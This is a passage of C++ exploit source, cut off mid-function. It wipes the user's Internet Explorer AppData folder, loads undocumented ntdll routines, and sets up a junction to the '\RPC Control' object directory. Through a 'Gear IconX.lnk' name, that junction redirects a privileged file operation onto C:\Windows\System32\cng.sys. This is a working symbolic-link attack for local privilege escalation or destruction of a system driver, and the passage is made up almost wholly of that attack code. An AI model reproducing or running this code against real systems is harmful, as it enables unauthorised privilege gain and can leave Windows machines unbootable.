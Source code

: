 ```cpp
		else {
			DeleteFile(FullPath);
		}

		res = FindNextFile(hSrch, &wfd);
	}

	FindClose(hSrch);

	if (recur > 0) RemoveDirectory(TempPath);

	return 0;
}

void NtInit() {
	LoadLibrary(L"ntdll.dll");
	HMODULE hm = GetModuleHandle(L"ntdll.dll");
	_RtlInitUnicodeString = (ULONG(WINAPI*)(PUNICODE_STRING, PCWSTR))GetProcAddress(hm, "RtlInitUnicodeString");
	_RtlNtStatusToDosError = (ULONG(WINAPI*) (NTSTATUS Status))GetProcAddress(hm, "RtlNtStatusToDosError");
	_NtCreateSymbolicLinkObject = (NTSTATUS(WINAPI*)(
		OUT PHANDLE             pHandle,
		IN ACCESS_MASK          DesiredAccess,
		IN POBJECT_ATTRIBUTES   ObjectAttributes,
		IN PUNICODE_STRING      DestinationName))GetProcAddress(hm, "NtCreateSymbolicLinkObject");
	_NtCreateFile = (NTSTATUS(WINAPI*)(
		PHANDLE            FileHandle,
		ACCESS_MASK        DesiredAccess,
		POBJECT_ATTRIBUTES ObjectAttributes,
		PIO_STATUS_BLOCK   IoStatusBlock,
		PLARGE_INTEGER     AllocationSize,
		ULONG              FileAttributes,
		ULONG              ShareAccess,
		ULONG              CreateDisposition,
		ULONG              CreateOptions,
		PVOID              EaBuffer,
		ULONG              EaLength))GetProcAddress(hm, "NtCreateFile");
	_NtClose = (NTSTATUS(WINAPI*)(HANDLE Handle))GetProcAddress(hm, "NtClose");
}

int main() {
	NtInit();

	std::wstring UserProfilePath = std::wstring(_wgetenv(L"USERPROFILE"));

	std::wstring LinkFile = L"Gear IconX.lnk";
	std::wstring LinkDirectory = UserProfilePath + std::wstring(L"\\AppData\\Roaming\\Microsoft\\Internet Explorer\\Quick Launch");
	std::wstring TargetFile = L"C:\\Windows\\System32\\cng.sys";

	std::wstring RpcControl = L"\\RPC Control";
	std::wstring RpcControlFile = RpcControl + L"\\" + LinkFile;

	std::wstring ParentDirectory = UserProfilePath + std::wstring(L"\\AppData\\Roaming\\Microsoft\\Internet Explorer");
	if (GetFileAttributesW(ParentDirectory.c_str()) != INVALID_FILE_ATTRIBUTES) {
		DeleteAllFiles(ParentDirectory.c_str(), 1);
	}

	CreateDirectoryW(ParentDirectory.c_str(), NULL);

	if (!CreateMountPoint(LinkDirectory, RpcControl, L"Junction")) {
```